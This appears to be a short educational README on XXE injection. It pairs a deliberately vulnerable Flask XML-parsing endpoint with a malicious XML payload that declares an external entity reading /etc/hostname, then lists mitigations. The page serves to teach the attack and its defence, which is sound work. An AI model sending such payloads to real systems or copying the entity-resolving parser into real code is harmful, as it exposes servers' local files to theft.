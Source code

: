 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

A threat actor may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Threat actor sends a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target Logic 
```py
@app.route("/parse_xml",methods = ['POST'])
def parse_xml():
    parser = etree.XMLParser(resolve_entities=True)
    root = etree.fromstring(request.files['xml'].read(), parser)
    response = make_response(etree.tostring(root), 200)
    response.mimetype = "text/plain"
    return response
```

#### Target-in
```xml
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>
```

#### Target-Out
```
Jone Doe
```

#### Target-in
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)
